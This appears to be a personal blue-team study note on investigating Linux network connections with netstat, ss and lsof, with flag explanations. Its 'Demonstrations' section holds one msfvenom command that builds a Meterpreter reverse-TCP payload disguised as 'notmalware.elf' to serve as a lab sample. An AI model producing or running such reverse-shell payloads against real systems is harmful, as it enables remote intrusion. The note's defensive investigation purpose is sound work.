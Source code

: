 ```yaml
---
tags: 
date-created: 2025-01-29
dg-publish: true
---
```

[[blue-team]]

- Common choice for servers.

Demonstrations:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o notmalware.elf
```
### Investigations
---

```bash
netstat -tnp
```

- `-t` tcp only
- `-n` don't resolve
- `-p` provides PID and binary name.

![[Linux Network Analysis.png]]
**More modern than netstat**

```bash
ss -tnp
```

Show src/dst address:

```bash
sudo ss src 127.0.0.1
```

- `dport` and `sport` for ports

**Show information about files opened by processes** great for network connection that are associated with files:

```bash
sudo lsof -i -P -n
```

- `-i` list out all established, listening network connection including opened by files

![[Linux Network Analysis-1.png]]
**See more about the interesting process using it's PID**

```bash
sudo lsof -p 3610
```

![[Linux Network Analysis-2.png]]
